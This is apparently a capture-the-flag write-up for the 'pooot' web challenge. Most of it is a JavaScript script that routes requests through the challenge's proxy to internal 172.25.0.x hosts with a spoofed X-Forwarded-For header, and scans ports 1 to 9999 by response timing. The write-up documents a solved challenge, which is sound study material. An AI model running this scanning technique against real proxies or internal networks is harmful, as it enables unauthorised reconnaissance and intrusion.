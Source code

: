 The intended solution was to use service workers in order to incercept which requests were being sent. For our solution, NotDeGhost implemented a time based port scanner which found the server and the port we were supposed to find via service workers instead.

Intended sol: https://cdn.discordapp.com/attachments/689364215047127055/711408475284176936/unknown.png
https://gist.github.com/terjanq/cd811311014dc16ef23d680c0ea89562

https://medium.com/bugbountywriteup/pooot-writeup-217384a6b69c

```javascript
var sus = []

testPort = (base, port=6379) => {
const start = Date.now()

return fetch("https://pooot.challenges.ooo/172.25.0." + base + ":" + port, {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "accept-language": "en-US,en;q=0.9",
    "x-forwarded-for": "172.25.0.11",
    "cache-control": "no-cache",
    "pragma": "no-cache",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "none",
    "sec-fetch-user": "?1",
    "upgrade-insecure-requests": "1"
  },
  "referrerPolicy": "no-referrer-when-downgrade",
  "body": null,
  "method": "GET",
  "mode": "cors",
  "credentials": "include"
}).then(a => a.text())
.then(a => {
if(Date.now() - start < 1000) sus.push(base)
if(a !== "Could not reach this domain") alert(base + ":" + port)

console.log(base + ":" + port + " > " + a + " | " + (Date.now() - start))
})
}

b = [101, 102, 103, 105, 110, 111, 112, 113, 114];
(async () => {
for(var i = 0; i < b.length; i++){
for(var port = 1; port < 10000; port++){
await testPort(b[i], port)
}
}
})()
```
